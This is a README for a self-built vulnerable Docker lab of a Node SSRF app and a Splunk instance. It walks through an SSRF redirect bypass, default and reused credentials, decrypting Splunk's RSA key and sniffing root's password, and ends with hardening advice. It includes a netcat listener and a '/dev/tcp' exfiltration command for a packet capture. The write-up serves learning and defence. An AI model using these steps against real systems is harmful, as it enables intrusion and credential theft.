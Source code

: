 # Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I was always amazed by level of complexity and detail that goes into some of the machines so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. As a result I made a network of a couple docker containers where a user can go from external access to root inside a container.

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network. (I couldn't find a way to isolate the splunk container from the host using purely docker networking as the host always gets assigned as the default gateway on any docker network I define)

The web app is the `SSRF` app written inn `node.js` from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container which works. From here we could try and pivot to the `splunk` container with `ssh`, hoping for credential re-use but this doesn't work. Looking around the filesystem we can read admin's `.bash_history` which reveals a mistake in a `sudo -u` command which exposes `admin2's` password.

We find we can pivot to the splunk container with the found credentials over `ssh`.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

<img src="images/health_check.png">

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

<img src="images/re.png">

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

<img src="images/res.png">

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

<img src="images/user.png">

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

<img src="images/access.png">

Doing a light password spray against known users on the web container, we find the password `changeme` has been reused for `admin`. We can simply `ssh` into the box now.

<img src="images/splunk-access.png">

A good first place to look for creds is always `.bash_history`. In this case we see an erroneous `sudo` command which potentially exposes `admin2's` credentials. We can try pivot into the Splunk container with `ssh` and `admin2:changeme2`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

<img src="images/sudo.png">

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients and the server.

<img src="images/sslpass.png">

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. 

<img src="images/traffic.png">

With my other `sudo` privilege, I'll run `tcpdump` for a short while to see what traffic I can capture, and send the output to `output.pcap`. I'll exfil this file by running `nc -nvlp 7777 > output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

<img src="images/rootcreds.png">

I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`. Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.



Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.

# Hardening Strategies
- Network segmentation to prevent SSRF. Does the web app need to be able to talk to splunk? Perhaps because the app  may forward logs to the splunk deployment server on port 9097, in which case reserve a port on the web app container to send logs from and firewall off other ports. If they don't need to talk at all, could segment with VLANs.
- Configure the `node` app not to follow redirects by specifying `{ maxRedirects: 0 }` in `axios.get()`
- Use PAM to enable a strong password policy for SSH. Edit `minlength, minclass, maxrepeat` in `/etc/pam.d/common-password`.
- Disable `ssh` password authentication with the line `PubkeyAuthentication yes` in `/etc/ssh/sshd_config`.
- Better yet disable `ssh` if not needed with `sudo systemcl disable ssh`.
- Try and avoid password reuse by educating users, centralized authentication e.g. Kerberos, LDAP, or enforce MFA.
- Keep software patched and up to date. Versions of splunk >7.1.0 don't allow remote login using default credentials, and force the user to provide a new password on first local login.
- Use the principle of least privilege. Does `admin2` need to be able to read *every* file in `/opt/splunk`, do they *need* to be able to capture traffic on localhost, if yes can they make do with only certain ips/ports/protocols.
- Weak crypto. The perl script in the root cron specified a weak cipher suite `AES128-SHA256`. A DH based key exchange offers perfect forward secrecy, so knowledge of long term secrets like the server's private key isn't enough to decrypt the traffic.

Any one of the above hardening techniques has the potential to completely halt the attack flow from proceding to the next step. This is why defense in depth is such a powerful concept.
